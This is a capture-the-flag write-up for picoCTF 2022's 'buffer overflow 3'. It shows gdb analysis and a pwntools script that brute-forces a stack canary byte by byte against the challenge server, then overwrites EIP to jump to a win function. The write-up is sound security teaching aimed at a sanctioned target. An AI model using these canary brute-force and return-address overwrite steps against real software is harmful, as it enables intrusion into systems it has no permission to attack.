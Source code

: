 # buffer overflow 3

**Info**

The problem is part of picoCTF 2022 - buffer overflow 3
picoCTF buffer overflow 3

**Problem Part**

![Alt text](images/problem.png)

The problem give us 3 thing.

1. Binary file
2. Source
3. Server

First, I tried to connect to the server and observe what does it do.

![Alt text](images/program.png)

The server ask the size of input and take input equal to that size.

I think I can use this input to overflow the buffer. So let's dive into the source code file.

**Source Code Part**

The source code have 3 main interesting function which are

1. win

![Alt text](images/win.png)

This function will be call to print the flag so, we might need to overflow the buffer and control the EIP to point to this function.

2. vuln

![Alt text](images/vuln.png)

This is the main program where the user interact with.

You can see that the program check that the canary is changed or not. If the value of canary is changed, it will not run.

So if we want to overflow the buffer and control EIP, we need to find a way to obtain the value canary.

3. read_canary

![Alt text](images/canary.png)

This function is use to get the canary stored in the directory.


After we observe the source code. Let's find a way to overflow the buffer.

**Testing on the local machine**

I create the file "canary.txt" with text "1234" as canary which is necessary to run the program and try to gdb it.

![Alt text](images/bufsize.png)
![Alt text](images/stack1.png)

From the source code. We have buf with size 64 and canary with length 4.

![Alt text](images/stack.png)

So, the stack might be something like this.

![Alt text](images/gdb2.png)

Then, to overflow, I created the payload with "a"*64 + "1234" + pattern

"a" * 64 is use to fill the variable buf

"1234" is the canary I created on my machine.

pattern is the pattern text that we will use to find the offset of the EIP register.

![Alt text](images/gdb3.png)

And Boom! We got the offset of EIP register. So now we just need to overflow EIP.

![Alt text](images/gdb1.png)

By using the gdb we can get the address of win function which is at 0x08049336.

![Alt text](images/localtest.png)

I try to overflow it on the local machine, and it works.

So let's move to the one on the server.

**Find the canary of the server and obtaining the flag**

```python
from pwn import *
import string

offset1 = b"a" * 64
canary = b""
offset2 = b"a" * 16
eip = p32(0x08049336)
```

This is all varible we obtain on the local machine.

The canary of the server is secret, so we need to figure it out by bruteforce it.

Let's go back to the source code first.

![Alt text](images/can_check.png)

We know that if the canary is not matched, the program will print **Canary Value Corrupt!** and if the canary is matched, it will print **Ok ... Now Where's the Flag**

And we also know that, the program will ask the size of input before taking the input.

So, we can use this to find the canary letter-by-letter.

```python
# find canary
for i in range(1, 5):
    for c in string.printable:
        r = remote("saturn.picoctf.net", 58405)
        r.recvuntil('>')
        r.sendline(str(64+i).encode()) # size the we want to input
        r.recvuntil('>')
        r.sendline(offset1 + canary + c.encode()) # try to add 1 more character
        output = r.recvall().decode()
        if 'Flag' in output: # if the char c is corret canary
            canary += c.encode()
            break
    print(canary)
```

I do the loop for 4 times to find the canary in each place.

We try to bruteforce all character that is possible of the canary by letter and trigger the correct canary by observing the output of the server.

Then after we got the canary, just craft the payload and obtain the flag.

```python
# send the payload and obtain the flag
r = remote("saturn.picoctf.net", 58405)
r.recvuntil('>')
r.sendline(str(64+4+16+4).encode())
r.recvuntil('>')
r.sendline(offset1+canary+offset2+eip)
r.interactive()
```

![Alt text](images/done.png)

For full code [solve.py](solve.py)